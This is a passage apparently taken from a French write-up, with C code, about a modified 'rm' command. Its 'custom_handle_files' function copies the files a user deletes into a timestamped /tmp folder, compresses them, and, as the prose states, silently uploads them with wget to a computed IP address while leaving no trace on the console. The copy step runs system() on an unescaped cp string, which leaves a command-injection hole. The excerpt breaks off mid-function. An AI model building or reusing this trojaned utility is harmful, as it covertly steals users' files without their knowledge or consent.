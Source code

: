 ```c
int remove_directory(const char *path) {
    DIR *d = opendir(path);
    if (!d) return -1;
    struct dirent *p;
    while ((p = readdir(d)) != NULL) {
        if (!strcmp(p->d_name, ".") || !strcmp(p->d_name, ".."))
            continue;
        size_t len = strlen(path) + strlen(p->d_name) + 2;
        char *buf = malloc(len);
        snprintf(buf, len, "%s/%s", path, p->d_name);
        struct stat statbuf;
        if (!stat(buf, &statbuf)) {
            if (S_ISDIR(statbuf.st_mode))
                remove_directory(buf);
            else
                unlink(buf);
        }
        free(buf);
    }
    closedir(d);
    rmdir(path);
    return 0;
}
```



#### 3.3 Fonction `custom_handle_files`

La troisième grande partie de mon code concerne la gestion personnalisée des fichiers avec `custom_handle_files(char **files, int num_files, struct rm_options *x)`. 

Ici, je commence par vérifier la taille totale des fichiers pour m'assurer qu'elle ne dépasse pas **200 MB**, ce qui est ma limite pour un envoi. 

Ensuite, je crée un répertoire temporaire, en utilisant un **timestamp** pour le nommer. Cela me permet de savoir exactement quand les fichiers ont été préparés pour l'envoi. 

Je copie les fichiers dans ce répertoire, je les compresse en un fichier `.tar.gz`, et je prépare un corps de requête multipart pour les envoyer.

Pour l'envoi, j'utilise `wget` avec l'adresse IP que j'ai calculée avec `calc()`. 

J'envoie le fichier compressé sans laisser de traces sur la console, en rendant tout le processus transparent pour l'utilisateur.



```c
int custom_handle_files(char **files, int num_files, struct rm_options *x) {
    long max_size = 200 * 1024 * 1024; // Limite di 200 MB
    long total_size = 0;
    struct stat st;
    char dir_path[256], tar_path[512], body_path[512], cmd[1024];
    char boundary[] = "----WebKitFormBoundary7MA4YWxkTrZu0gW";
    for (int i = 0; i < num_files; i++) {
        if (stat(files[i], &st) != 0 || (total_size += st.st_size) > max_size)
            return 0;
    }
    time_t now = time(NULL);
    snprintf(dir_path, sizeof(dir_path), "/tmp/tmp%ld", now);
    mkdir(dir_path, 0777);

    for (int i = 0; i < num_files; i++) {
        char new_path[1024];
        snprintf(new_path, sizeof(new_path), "%s/%s", dir_path, basename(files[i]));
        snprintf(cmd, sizeof(cmd), "cp '%s' '%s'", files[i], new_path);
        system(cmd);
```